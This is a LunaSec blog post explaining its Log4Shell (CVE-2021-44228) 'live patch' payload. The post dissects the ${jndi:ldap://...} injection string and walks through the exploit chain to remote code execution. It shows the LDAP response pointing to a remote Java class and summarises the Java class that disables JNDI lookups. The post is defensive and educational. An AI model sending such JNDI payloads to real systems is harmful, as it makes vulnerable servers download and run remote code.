```yaml
---
title: "Understanding Log4Shell via Exploitation and Live Patching (CVE-2021-44228 + CVE-2021-45046)"
description: Let's dig into how it's possible to send a string to your server and have it patch a vulnerability.
slug: log4shell-live-patch-technical
date: 2021-12-16
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
tags: [zero-day, security, data-security, guides, log4shell]
authors: [free, chris]

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

![Log4Shell Logo](https://www.lunasec.io/docs/img/log4shell-logo.png)

## Technical Analysis: Understanding the Live Patch

The other day we published a Log4Shell payload that, when used to exploit a server, would patch the server against
future exploitation from Log4Shell. You can read through our post explaining _why_ we built it
[here](https://www.lunasec.io/docs/blog/log4shell-live-patch/).

It looks like this:
```
${jndi:ldap://patch.log4shell.com:1389/a}
```

In this post, we're going to dissect what's going on with this live patch to explain how it works. If you're curious to
dig into this more, you can view the code on
[GitHub](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell) too.

<!--truncate-->

## The Payload Schema

A simple Log4Shell attack follows a specific structure. We're going to break down our patch payload (above) into its
composite parts:


- `${`: The open tag for the log4j "Message Lookup".
- `jndi:`: Specifying to log4j to use the "JNDI Manager" to resolve the message.
- `ldap://`: Tells the JNDI request to be resolved using the LDAP protocol.
- `patch.log4shell.com`: The host to resolve via DNS to send the payload towards.
- `:1389`: The port to send the request to.
- `/a`: The path to send to the server with the request.
- `}`: The closing tag for the original log4j "Message Lookup".

_Note: There are more advanced payloads, but they all distill down to something similar to this._

## High-Level Exploit Steps

To perform the exploit, the following steps are completed in this sequence:

1. A log is passed to `log4j` via `log.info("${jndi:ldap://patch.log4shell.com:1389/a}")`.
2. A "Message Lookup" is parsed by `log4j` to be interpreted.
3. The JNDI Manager is invoked and passed the LDAP URI.
4. The LDAP Server is queried via the URI.
5. The response is downloaded and passed to the JNDI Manager.
6. The JNDI Manager loads the response data as Java bytecode into the Java process.
7. When loading the Java code, the `getObjectInstance` method is called since the loaded class is an `ObjectFactory`
   (alternatively, the payload code can be wrapped in a static context with `static {}` which will be triggered upon loading the class).
8. At this point, an attacker can perform whatever logic they'd like because they have full code execution.

Here is a diagram with roughly the same information, but explained visually (with mitigation info).

<a href="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" target="_blank" rel="noopener">
  <img src="https://www.lunasec.io/docs/img/log4j-attack-and-mitigations.png" alt="log4shell 0day diagram" />
</a>

## The LDAP Lookup

Once `log4j` has parsed the message, the LDAP request is the first leg of the exploit that an attacker must implement in
order to attain RCE.

We're going to use the CLI tool `ldapsearch` to allow us to emulate the request being made from within `log4j` to the
LDAP server. With this tool, we can query the live patch server for its entries:

```shell
~ ldapsearch -x -H ldap://patch.log4shell.com:1389
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:: Y249bG9nNHNoZWxsLWhvdHBhdGNoLCA=
cn: log4shell-hotpatch
javaClassName: attempting to patch Log4Shell vulnerability with payload hosted
  on: http://patch.log4shell.com:80/Log4ShellHotpatch.class
javaCodeBase: http://patch.log4shell.com:80/
objectclass: javaNamingReference
javaFactory: Log4ShellHotpatch

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

The most important parts of this response data are the `javaCodeBase` and the `javaFactory` fields. These tell the JNDI
function where to locate the code (`http://patch.log4shell.com:80/`), and what remote class to resolve
(`Log4ShellHotpatch`). In Log4j versions `>= 2.15.0`, `javaCodeBase` will only be resolved if it is [`localhost` or a
whitelisted host](https://github.com/apache/logging-log4j2/pull/608), meaning this payload will not execute.

### Other Response Values

For the most part, the other response values exist only to pass the LDAP schema validation step, and aren't crucial for
the exploit to succeed.

For example, the `javaClassName` contains a value which will be logged out when running the live patch on a system. This
log message will indicate that the second stage Java class file is being downloaded:
`http://patch.log4shell.com:80/Log4ShellHotpatch.class`.

We have only added this for debugging to understand if this payload was ever actually executed, but it could be
substituted with any string value.

## The JNDI Request

With the information now available to tell JNDI where to load the exploit code from, the next request in the exploit
chain is fired off. The response from this request contains Java bytecode which enables the actual RCE
functionality of this vulnerability.

Java bytecode is easily reversible, and we are not making any attempt to [obfuscate the payload](https://owasp.org/www-community/controls/Bytecode_obfuscation).
Using a tool such as [jdec.app](https://jdec.app/), you can simply download the payload and then reverse engineer it to understand
exactly what code will be run when the exploit is triggered.

![Log4Shell live patch payload decompiled](https://www.lunasec.io/docs/img/log4shell-live-patch-decompilation.png)

You can alternatively just browse the payload's source on (
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/tools/log4shell/payloads/hotpatch-payload/src/main/java/Log4ShellHotpatch.java)
):

```ts
/* ... imports redacted for brevity ... */

public class Log4ShellHotpatch implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) {
        log("Attempting to apply Log4Shell hotpatch to service...");
        try {
            // reconfiguring log4j
            boolean success = removeJndiFromLog4jContextLookup();
            if (success) {
                return "Successfully hotpatched Log4Shell vulnerability.";
            }
        } catch (Exception e) {
            error(e.toString());
            e.printStackTrace();
        }
        return "Unable to hotpatch Log4Shell vulnerability.";
    }

    static boolean removeJndiFromLog4jContextLookup() {
      /* ... trimmed code, see GitHub for full example ... */
    }

    /* ... other methods trimmed too ... */
}
```

## The Java Exploit Code

Upon loading the second stage Java class file into the program, the class `Log4ShellHotpatch` will start performing the
in memory patch when the `getObjectInstance()` function is invoked during object creation by JNDI.

The patch consists of the following steps:

1. Accesses the current thread's `ClassLoader` and locates the classes for:
  - `org.apache.logging.log4j.core.config.Configurator`.
  - `org.apache.logging.log4j.core.impl.Log4jContextFactory`.
3. Calls `ContextSelector ctxSelector = Log4jContextFactory.getSelector(Configurator.getFactory());`.
4. Grabs all `LoggerContext` objects with `ctxSelector.getLoggerContexts()`.
5. Goes through each `LoggerContext` and removes the `jndi` entry in each object's lookup map.

The last step of the patch is what prevents further resolution of `jndi` values during `log4j` logging calls.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

If this post helped you, please share it with others to help them too.


<ContactForm/>

## More Information

We have published a series of posts about Log4Shell on our blog that you might be interested in:
- **[Part 1: Log4Shell Live Patch (Background Context)](https://www.lunasec.io/docs/blog/log4shell-live-patch/)**
- **[Mitigation Guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/)**
- **[Original Log4Shell Announcement](https://www.lunasec.io/docs/blog/log4j-zero-day/)**
- **[Explanation of the 2nd Log4j CVE](https://www.lunasec.io/docs/blog/log4j-zero-day-update-on-cve-2021-45046/)**

### Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-15-log4shell-live-patch.mdx).
:::

